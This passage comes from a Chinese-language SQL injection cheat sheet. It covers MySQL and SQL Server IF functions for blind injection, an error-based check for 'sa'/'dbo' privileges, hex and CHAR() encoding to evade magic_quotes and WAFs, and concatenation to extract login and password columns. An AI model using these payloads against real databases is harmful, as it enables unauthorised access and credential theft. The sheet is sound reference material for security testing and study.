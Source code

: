 在正常执行完前一个语句后，会删除用户表 

#### if 函数

这个利用方式在盲注过程中非常关键

##### MySQL If 函数

- `IF(**condition,true-part,false-part**)`(M)`SELECT IF(1=1,'true','false')`

##### SQL Server If 函数 

- `IF **condition** **true-part** ELSE **false-part**` (S)  `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

##### If 函数在 SQL 注入攻击中的实例

`if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0` (S) 

当前用户不是 **"sa" 或 "dbo"** 时则不会报错

#### 使用数字类型

可以绕过 magic_quotes() 和一些过滤, 甚至是常见的 WAFs. 

- `0x*HEXNUMBER*` (SM) 

- 你也可以像下面这样写

  `SELECT CHAR(0x66)` (S)
  `SELECT 0x5045` (将字符串进行 hex 编码) (M)
  `SELECT 0x50 + 0x45` (M) 

#### 字符串操作

将字符串进行各种字符操作的变形，可以绕过一些防御方式

##### 字符串连接

- `+` (S)
  `SELECT login + '-' + password FROM members`
- `||` (*MO)
  `SELECT login || '-' || password FROM members`

**关于 MySQL 的 "||";** 如果 MySQL 在 ANSI 模式下运行会起作用，否则 Mysql 会将其作为逻辑运算符将它返回 0 ，使用 `CONCAT()` 函数会更好

- `CONCAT(str1, str2, str3, ...)` (M) 

  连接提供的字符串：`SELECT CONCAT(login, password) FROM members`

#### 不带引号的字符串

可以使用 `CHAR()`(MS) 和 `CONCAT()`(M) 来生成不带引号的字符串

- `0x457578` (M) - 字符串 hex 后的值 `SELECT 0x457578` 在 Mysql 中可以使用下面的语句生产这个字符串：`SELECT CONCAT('0x',HEX('c:\\boot.ini'))`
- Using `CONCAT()` in MySQL
  `SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))` (M)
  这个语句将返回 ‘KLM’
- `SELECT CHAR(75)+CHAR(76)+CHAR(77)` (S)
  这个语句将返回 ‘KLM’
